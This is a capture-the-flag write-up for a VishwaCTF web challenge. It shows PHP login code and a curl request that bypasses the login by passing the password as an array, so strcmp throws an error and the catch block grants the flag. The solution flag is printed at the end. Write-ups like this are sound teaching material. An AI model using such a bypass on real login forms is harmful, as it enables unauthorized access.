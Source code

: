 # **Writeup - VishwaCTF**

* Category **Web**
* Name **Eeezzy**
* Difficulty **Easy**

## Description
The challenge was about bypassing a login in php.
Viewing the source of the page, we can see the php code used for the login:
```
 <?php

    session_start();
    $_SESSION['status']=null;

    $flag="";
    try {
        if (isset($_GET['username']) && isset($_GET['password'])) {
            if (strcmp($_GET['username'], $flag)==0 && strcmp($_GET['password'], $flag)==0)
                $_SESSION['status']=$flag;
            else
                $_SESSION['status']="Invalid username or password";
        }
    } catch (Throwable $th) {
        $_SESSION['status']=$flag;
    }

?> 
```
We can see that there is a `strcmp` between our get parameters (username, password) and something we don't know.
This check is inside a try catch block and if it catches a `throwable` it will print the flag.

## Solution
Send the GET parameters as array so `strcmp` will throw an error.
`curl https://ch41763110254.ch.eng.run/?username=aaa&password[]=[]&submit=Login`

`VishwaCTF{5t0p_c0mp4r1ng}`
